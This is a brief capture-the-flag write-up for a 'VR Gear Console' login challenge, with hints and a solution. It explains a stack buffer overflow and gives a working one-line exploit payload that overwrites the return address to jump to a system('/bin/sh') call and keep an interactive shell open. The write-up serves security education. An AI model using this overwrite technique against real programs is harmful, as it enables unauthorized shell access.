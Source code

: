 # VR Gear Console
Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/5206d6e095708fbcc2dfa33cd2a8b819
## HINTS
- What happens if you read in more characters than the length of the username buffer?
- You should look at an ascii table to see what character you need to choose.
- Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
- "cat file - | vrgearconsole " will keep the pipe open for commands.

## SOLUTION
- determine the return address: we want to execute system("/bin/sh"), so need to jump to address of the push before call to system
- solution:
```
(echo -e "aaaabaaacaaadaaaeaaafaaagaaahaaa\xd5\x86\x04\x08"; cat -) | ./vrgearconsole
```